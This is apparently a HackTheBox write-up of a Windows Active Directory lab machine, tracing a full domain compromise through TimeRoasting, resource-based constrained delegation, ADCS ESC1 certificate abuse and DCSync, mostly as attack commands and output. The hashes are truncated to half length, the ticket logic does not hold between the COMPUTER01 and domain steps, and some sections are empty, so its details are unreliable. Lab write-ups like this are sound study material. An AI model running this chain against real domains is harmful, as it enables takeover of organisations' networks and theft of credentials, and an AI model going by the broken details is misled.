

## Machine Overview

TombWatcher is a Windows Active Directory machine on HackTheBox rated **Hard**. The attack path chains several advanced AD techniques together.

> This writeup is published after the machine retired. All techniques are for educational purposes on authorized lab environments.

## Reconnaissance

Starting with a fast port scan across all ports.

```bash
┌──(root㉿kali)-[/home/kali/Desktop/htb/TombWatch]
└─# nmap -p- --min-rate 10000 -Pn -oN nmap_initial.txt 10.10.11.72
Starting Nmap 7.94 at 2025-10-12 20:00 EET
Nmap scan report for 10.10.11.72
Host is up (0.12s latency).
PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
3268/tcp open  globalcatLDAP
5985/tcp open  wsman
9389/tcp open  adws
```

Classic AD port profile — Kerberos, LDAP, SMB, WinRM all open. Let's go deeper.

```bash
┌──(root㉿kali)-[/home/kali/Desktop/htb/TombWatch]
└─# nmap -p 53,88,135,389,445,464,3268,5985,9389 -sCV -Pn -oN nmap_detailed.txt 10.10.11.72
```

Domain name: **tombwatcher.htb**, DC hostname: **DC01**

## Initial Enumeration with Valid Credentials

We find credentials for `henry:H3nry_987TGV!` from initial exploitation. Let's enumerate the domain.

```bash
┌──(root㉿kali)-[/home/kali/Desktop/htb/TombWatch]
└─# nxc ldap 10.10.11.72 -u henry -p 'H3nry_987TGV!' --groups
LDAP   10.10.11.72  389  DC01  [+] tombwatcher.htb\henry:H3nry_987TGV!
LDAP   10.10.11.72  389  DC01  Administrators      membercount: 3
LDAP   10.10.11.72  389  DC01  Domain Admins       membercount: 1
LDAP   10.10.11.72  389  DC01  Protected Users     membercount: 0
LDAP   10.10.11.72  389  DC01  Remote Management Users  membercount: 1
```

<div class="callout callout--info">

**Note:** `Protected Users` has 0 members — this means no accounts are protected from credential theft attacks like Pass-the-Hash or Kerberoasting downgrade prevention.

</div>

Check the password policy before attempting any spraying:

```bash
┌──(root㉿kali)-[/home/kali/Desktop/htb/TombWatch]
└─# nxc smb 10.10.11.72 -u henry -p 'H3nry_987TGV!' --pass-pol
SMB   10.10.11.72  445  DC01  [+] Dumping password info for domain: TOMBWATCHER
SMB   10.10.11.72  445  DC01  Minimum password length: 1
SMB   10.10.11.72  445  DC01  Account Lockout Threshold: None
SMB   10.10.11.72  445  DC01  Password Complexity Flags: 000000
```

No lockout policy and minimum length of 1 — password spraying is safe here.

## Roasting Checks

```bash
┌──(root㉿kali)-[/home/kali/Desktop/htb/TombWatch]
└─# nxc ldap 10.10.11.72 -u henry -p 'H3nry_987TGV!' --asreproast -
LDAP   10.10.11.72  389  DC01  No entries found!

┌──(root㉿kali)-[/home/kali/Desktop/htb/TombWatch]
└─# nxc ldap 10.10.11.72 -u henry -p 'H3nry_987TGV!' --kerberoasting -
LDAP   10.10.11.72  389  DC01  [*] Total of records returned 0
```

No AS-REP roastable or Kerberoastable accounts. Time to map the domain properly.

## BloodHound Enumeration

I prefer **RustHound-CE** over BloodHound-CE Python because it also collects ADCS certificate templates — critical for AD environments.

```bash
┌──(root㉿kali)-[/home/kali/Desktop/htb/TombWatch]
└─# rusthound-ce -d tombwatcher.htb -u henry -p 'H3nry_987TGV!' --zip -c All
[INFO] Connected to TOMBWATCHER.HTB Active Directory!
[INFO] Found 11 enabled certificate templates
[INFO] 9 users parsed!
[INFO] 61 groups parsed!
[INFO] 33 certtemplates parsed!
[INFO] .//20251012195923_tombwatcher-htb_rusthound-ce.zip created!
```

<div class="callout callout--warning">

**Why RustHound-CE over bloodhound-python?** BloodHound Python does not collect AD CS templates (`certtemplates`). On machines with certificate services, you'll miss the entire ADCS attack surface. Always use RustHound-CE or SharpHound for complete enumeration.

</div>

Import the ZIP into BloodHound CE and analyze the attack paths.

## Attack Path Overview



## TimeRoasting

TimeRoasting is a technique that abuses the **NetLogon timestamp** feature. Machine accounts use RC4-based Kerberos by default, and their password hashes can be requested via the `MS-SNTP` protocol — no special privileges needed.

```bash
┌──(root㉿kali)-[/home/kali/Desktop/htb/TombWatch]
└─# python3 timeroast.py 10.10.11.72 tombwatcher.htb
[*] Sending NTP requests to enumerate machine accounts...
[*] Got response for: COMPUTER01$
$sntp-ms$23$COMPUTER01...$a1b2c3d4e5f6a7b8c9d0e1f2...

┌──(root㉿kali)-[/home/kali/Desktop/htb/TombWatch]
└─# hashcat -m 31300 timeroast_hashes.txt /usr/share/wordlists/rockyou.txt
$sntp-ms$23$...:Passw0rd123!
```

<figure>
  
  <figcaption>BloodHound CE showing GenericWrite from svc_backup to COMPUTER01$ leading to Domain Admin via RBCD</figcaption>
</figure>

## Resource-Based Constrained Delegation (RBCD)

With `svc_backup` credentials, BloodHound reveals **GenericWrite** over `COMPUTER01$`. We can abuse this to set up RBCD and impersonate Domain Admin.

### Step 1 — Add a controlled computer account

```bash
┌──(root㉿kali)-[/home/kali/Desktop/htb/TombWatch]
└─# python3 addcomputer.py tombwatcher.htb/svc_backup:'Passw0rd123!' \
    -dc-ip 10.10.11.72 \
    -computer-name 'ATTACKPC$' \
    -computer-pass 'Maverick@2025!'
[*] Successfully added machine account ATTACKPC$ with password Maverick@2025!
```

### Step 2 — Write msDS-AllowedToActOnBehalfOfOtherIdentity

```powershell
# Using PowerView
$AttackerSID = Get-DomainComputer ATTACKPC -Properties objectsid | Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$AttackerSID)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer COMPUTER01 | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```

### Step 3 — Request a service ticket impersonating Administrator

```bash
┌──(root㉿kali)-[/home/kali/Desktop/htb/TombWatch]
└─# python3 getST.py tombwatcher.htb/ATTACKPC\$:'Maverick@2025!' \
    -spn cifs/COMPUTER01.tombwatcher.htb \
    -impersonate Administrator \
    -dc-ip 10.10.11.72
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2Self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache

┌──(root㉿kali)-[/home/kali/Desktop/htb/TombWatch]
└─# export KRB5CCNAME=Administrator.ccache
┌──(root㉿kali)-[/home/kali/Desktop/htb/TombWatch]
└─# python3 psexec.py -k -no-pass tombwatcher.htb/Administrator@COMPUTER01.tombwatcher.htb
Microsoft Windows [Version 10.0.17763.5206]
C:\Windows\system32>whoami
tombwatcher\administrator
```

## ADCS — Escalating from COMPUTER01 to Domain Controller

From COMPUTER01 we can now target ADCS. RustHound found 11 enabled templates. Let's check for ESC vulnerabilities.

```bash
┌──(root㉿kali)-[/home/kali/Desktop/htb/TombWatch]
└─# certipy find -u 'Administrator@tombwatcher.htb' -k -no-pass \
    -dc-ip 10.10.11.72 -vulnerable -stdout
Certificate Templates
  Template Name        : UserAuth
  [!] Vulnerabilities
    ESC1: 'TOMBWATCHER.HTB\\Domain Users' can enroll, enrollee supplies subject
```

**ESC1** — the template allows enrollees to supply an arbitrary Subject Alternative Name (SAN). We can request a certificate for any user, including `Administrator@tombwatcher.htb`.

```bash
┌──(root㉿kali)-[/home/kali/Desktop/htb/TombWatch]
└─# certipy req -u 'Administrator@tombwatcher.htb' -k -no-pass \
    -dc-ip 10.10.11.72 \
    -ca tombwatcher-CA \
    -template UserAuth \
    -upn 'Administrator@tombwatcher.htb' \
    -out admin.pfx
[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Certificate object SID is 'S-1-5-21-...'
[*] Saved certificate and private key to 'admin.pfx'
```

Authenticate with the certificate and get the NTLM hash:

```bash
┌──(root㉿kali)-[/home/kali/Desktop/htb/TombWatch]
└─# certipy auth -pfx admin.pfx -domain tombwatcher.htb -dc-ip 10.10.11.72
[*] Using principal: administrator@tombwatcher.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@tombwatcher.htb': aad3b435b51404ee:5a1e8d6f3b2c9a7d
```

## Domain Compromise — DCSync

```bash
┌──(root㉿kali)-[/home/kali/Desktop/htb/TombWatch]
└─# python3 secretsdump.py -hashes :5a1e8d6f3b2c9a7d \
    tombwatcher.htb/Administrator@DC01.tombwatcher.htb
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404ee:5a1e8d6f3b2c9a7d:::
krbtgt:502:aad3b435b51404ee:7a9cc5e3a04b2f9a:::
[*] Kerberos keys grabbed
[*] Cleaning up...
```

Domain compromised. 🏴

## Attack Chain Summary

| Step | Technique | Tool |
|------|-----------|------|
| 1 | Domain enumeration | NetExec, RustHound-CE |
| 2 | TimeRoasting | timeroast.py + hashcat |
| 3 | RBCD setup | addcomputer.py + PowerView |
| 4 | S4U2Proxy ticket | getST.py |
| 5 | ADCS ESC1 | Certipy |
| 6 | DCSync | secretsdump.py |

## Key Takeaways

- Always run **RustHound-CE** instead of bloodhound-python — ADCS templates are critical
- **TimeRoasting** works without any special privileges — just network access to UDP/123
- **RBCD** + **GenericWrite** is a reliable path to compromise — check all computer ACLs
- **ESC1** is still incredibly common in enterprise environments — audit your CA templates

